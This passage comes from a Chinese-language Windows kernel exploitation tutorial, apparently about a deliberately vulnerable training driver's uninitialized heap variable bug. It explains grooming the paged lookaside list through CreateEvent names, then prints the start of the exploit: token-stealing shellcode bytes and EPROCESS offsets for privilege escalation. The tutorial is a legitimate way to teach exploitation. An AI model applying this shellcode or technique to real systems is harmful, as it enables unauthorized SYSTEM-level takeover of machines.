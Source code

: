 4 + 4 + 58 * 4 + pool header = 248 < 256

所以说，UninitializedMemory 属于小块内存，系统会首先尝试从 PPPagedLookasideList 中分配申请的换页池。

到这里就明了了，我们若使 PPPagedLookasideList 中填满我们的脏空闲内存块，等会儿 UninitializedMemory 又从 PPPagedLookasideList 申请换页池块，发生未初始化变量调用的时候，就会执行我们的 shellcode 了。

最后一个问题，我们该怎么使空闲内存块变脏呢？还记得我们在池溢出一章中使用的函数 CreateEvent 吗？

![alt 4](images/uninitializedHeapVariable/4.jpg)

虽然 CreateEvent 对象是在非换页池中的，但是它的第四个参数 lpName 其实是保存在换页池中的。它的类型为 LPCSTR，要控制 256 个字节还是可以做到的。

## 0x02 未初始化堆变量漏洞利用
首先还是先贴上 exp
```c
// uninitializedHeapVariable.cpp : Defines the entry point for the console application.
//

#include "stdafx.h"

#include <windows.h>

/*
char shellcode[] = {

	"\x90\x90\x90\x90"              // NOP Sled
	"\x60"                          // pushad
	"\x31\xc0"                      // xor eax,eax
	"\x64\x8b\x80\x24\x01\x00\x00"  // mov eax,[fs:eax+0x124]
	"\x8b\x40\x50"                  // mov eax,[eax+0x50]
	"\x89\xc1"                      // mov ecx,eax
	"\xba\x04\x00\x00\x00"          // mov edx,0x4
	"\x8b\x80\xb8\x00\x00\x00"      // mov eax,[eax+0xb8]
	"\x2d\xb8\x00\x00\x00"          // sub eax,0xb8
	"\x39\x90\xb4\x00\x00\x00"      // cmp [eax+0xb4],edx
	"\x75\xed"                      // jnz 0x1a
	"\x8b\x90\xf8\x00\x00\x00"      // mov edx,[eax+0xf8]
	"\x89\x91\xf8\x00\x00\x00"      // mov [ecx+0xf8],edx
	"\x61"                          // popad

	"\xC3"                          // ret
	//"\xC2\x10\x00"                  // ret 16
};
*/

#define KTHREAD_OFFSET     0x124  // nt!_KPCR.PcrbData.CurrentThread
#define EPROCESS_OFFSET    0x050  // nt!_ETHREAD.ApcState.Process
#define PID_OFFSET         0x0B4  // nt!_EPROCESS.UniqueProcessId
#define FLINK_OFFSET       0x0B8  // nt!_EPROCESS.ActiveProcessLinks.Flink
#define TOKEN_OFFSET       0x0F8  // nt!_EPROCESS.Token
#define SYSTEM_PID         0x004  // SYSTEM Process PID

VOID shellCode()
{
```